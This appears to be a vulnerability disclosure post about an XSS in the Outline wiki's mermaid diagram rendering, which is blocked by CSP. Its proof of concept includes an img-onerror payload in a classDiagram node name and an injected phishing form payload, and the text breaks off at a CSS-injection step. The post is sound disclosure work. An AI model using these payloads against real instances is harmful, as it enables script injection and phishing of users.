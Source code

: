 ```yaml
---
layout: post
title:  "XSS in Outline when rendering mermaid diagrams(No Security Impact!)"
date:  2024-06-02 10:31:06 +0800
categories: xss
---
```


### Summary
Due to outdated mermaid plugin is used to render diagrams, a known XSS in mermaid classDiagram is able to trigger in outline mermaid diagram.

### Details
Outline is using [mermaid 9.3.0](https://github.com/outline/outline/blob/cb0f03d69820d9cd3422252cb511c7dfeed61904/package.json#L151) to render mermaid diagram. However, [this issue](https://github.com/Milkdown/milkdown/issues/1267#issuecomment-2018032986) have discussed the XSS in mermaid below 10.9.0 when rendering the node names of classDiagram. The name of node is not fully sanitized which leads to  injection of XSS payload. 

### PoC

1. Use `/Mermaid Diagram` to insert following xss payload:

  ```
  classDiagram
  Class01 <|-- `AveryLongClass<img src='x' onerror=alert(document.domain)>`
  Class03 *-- Class04
  Class05 o-- Class06
  Class07 .. Class08
  Class01 : size()
  Class01 : int chimp
  Class01 : int gorilla
  ```
2. Open chrome devtools, you can see CSP is blocking the XSSfrom executing.

    <img width="762" alt="outline-xss" src="https://github.com/outline/outline/assets/33363160/360801a9-0964-46f2-9244-5b2d4466da72">
    <img width="647" alt="outline-xss2" src="https://github.com/outline/outline/assets/33363160/519f4340-187a-401f-a2be-356b8d6e1513">

3. Use following paylod to inject forms for phishing:

    ```
    classDiagram
    Class01 <|-- `<form action='https://google.com'><label for='fname'>First name:</label><br><input type='text' id='fname' name='fname' value='John'><br><label for='lname'>Last name:</label><br><input type='text' id='lname' name='lname' value='Doe'><br><br><input type='submit' value='Submit'></form>`
    ```

    <img width="672" alt="xss-phishing" src="https://github.com/outline/outline/assets/33363160/4e495246-59bf-44b3-a41d-eb9459cb2a69">


4. Use following to inject css styles:
